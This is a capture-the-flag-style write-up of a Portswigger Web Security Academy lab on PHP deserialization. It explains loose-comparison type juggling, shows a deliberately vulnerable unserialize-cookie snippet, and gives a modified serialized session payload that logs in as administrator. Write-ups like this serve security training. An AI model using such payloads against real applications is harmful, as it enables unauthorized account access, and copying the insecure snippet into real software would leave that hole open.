 ```yaml
---
title: 'Lab: Modifying serialized data types'
tags: [Portswigger Web Security Academy, Web]

category: "Security/Practice/Portswigger Web Security Academy/Deserialization"
---
```


# Lab: Modifying serialized data types
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab uses a serialization-based session mechanism and is vulnerable to authentication bypass as a result
* Goal: To solve the lab, edit the serialized object in the session cookie to access the administrator account. Then, delete Carlos.
You can log in to your own account using the following credentials: wiener:peter

## Background
Loose Comparison Operator in `PHP`
> `PHP` based logic is particularly vulnerable to this kind of manipulation due to the behavior of its **loose comparison operator(==)** when comparing different data types.
> For example: `5=="5"` will be true when two types are different.

Vulnerability:
> This becomes even stranger when comparing a string the integer 0: `0 == "Example string" // true`
How about if the website author use this kind of vulnerability as below to verify the admin user?
>```php!
>$login = unserialize($_COOKIE)
>if ($login['password'] == $password) {
>// log in successfully
>}
>```

## Recon
1. Recon Package
According to the package we intercepted, the cookie is set to base64-encoded string:
Session: `Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJmaWtlajZ6ZXN6ZmFudm53b2psYmM2NHllN3dxaG5heSI7fQ%3d%3d`
Decoded String: `O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"fikej6zeszfanvnwojlbc64ye7wqhnay";}`
![](https://i.imgur.com/B6addxR.png)

2. What if we modify the string?
The verification mechanism workflow is comparing the query user's `access_token` with its database data.

## Exp
1. Modify the string like below
Change the user to `administrator` and access token to integer `0` so that the comparison is always true.
Exploit Payload:
`O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}`
Then we have admin panel on the screen.
![](https://i.imgur.com/X36upo8.png)

2. Delete Carlos like previous lab
:::spoiler Success Screenshot
![](https://i.imgur.com/PmCuBRF.png)
:::

## Reference